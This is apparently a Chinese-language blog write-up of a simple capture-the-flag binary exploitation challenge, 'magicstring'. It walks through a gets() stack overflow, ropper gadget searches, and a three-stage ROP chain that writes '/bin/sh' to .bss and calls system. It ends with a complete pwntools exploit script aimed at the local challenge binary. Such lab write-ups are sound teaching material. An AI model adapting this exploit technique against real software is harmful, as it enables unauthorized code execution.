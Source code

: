 ```yaml
---
layout: post
title:  "记一道简单的pwn解题过程"
date:   2020-12-16
categories: pwn gets system stackoverflow
---
```


记录一下一道简单的pwn题目。 可以在这[下载elf文件](/note/assets/pwn/magicstring)  

先用gdb调试一下elf文件，只有一个简单的main函数  

![docs](/note/assets/magicstring-asm.png)  

看汇编代码可以发现，64位程序，调用了system和gets函数，这里gets函数是可以直接溢出的。程序开始抬高了栈0x2a0个字节，main函数栈帧为672字节。然后程序保护项只开了NX保护，意味着不能通过栈去ret2shellcode。  
这里有了溢出点和system函数，最重要的两个因素。 但是还差一个shell和一个可控的参数传递。  
众所周知，64位程序传参需要用到寄存器，依次是rdi、rsi、rdx、rcx、r8、r9，而32位直接通过栈就可以了，所以需要找到可控的rdi寄存器。   
这里开始构造ROP链，推荐一款工具叫 `ropper`，跟ROPGadget差不多，但是总感觉ropper更好用。  
找一下rdi和sh：
```bash
$ ropper  --file magicstring --search 'pop rdi|ret'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi|ret

[INFO] File: magicstring
0x0000000000400733: pop rdi; ret; 
0x0000000000400532: ret 0x200a; 
0x0000000000400649: ret 0x8b48; 
0x00000000004005b5: ret 0xc148; 
0x00000000004004d1: ret; 

$ ropper --file magicstring --string '/bin/sh'


Strings
=======

Address  Value  
-------  -----  

$ ropper --file magicstring --string 'sh'


Strings
=======

Address  Value  
-------  -----  

$ ropper --file magicstring --string '$0'


Strings
=======

Address  Value  
-------  -----  

$ 
```
可以找到rdi：0x0000000000400733， 但是遗憾的是找不到sh和$0。  
所以麻烦点，只能通过写bss段，然后再把bss弹到rdi里面去实现getshell了  
通过三次gets调用达到getshell，第一次将bss写入rdi，第二次正常执行gets将/bin/sh写入bss，第三次写bss到rdi再调用system。  

第一次
```python
payload = b'A' * offset + rbp + pop_rdi + bss + gets + main
```

第二次
```python
payload = b'/bin/sh\x00'
```

第三次
```python
payload = b'A' * offset + rbp + pop_rdi + bss + system
```

最终exp为：
```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *

#context.log_level='debug'
offset = 0x2a0

pop_rdi = p64(0x0000000000400733)
gets = p64(0x400510)
system = p64(0x4004f0)
main = p64(0x400661)
rbp = p64(0x7fffffffe040)

#p = remote('111.231.70.44', 28042)
p = process('magicstring')
print(p.recv())
elf = ELF('magicstring')
bss = p64(elf.bss()+0x30)
payload = b'A' * offset + rbp + pop_rdi + bss + gets + main

p.sendline(payload)
#gdb.attach(p)
p.sendline(b'/bin/sh\x00')
payload2 = b'A' * offset + rbp + pop_rdi + bss + system
p.sendline(payload2)
print(p.recv())
p.interactive()
```

![docs](/note/assets/magicstring-exp.png)  
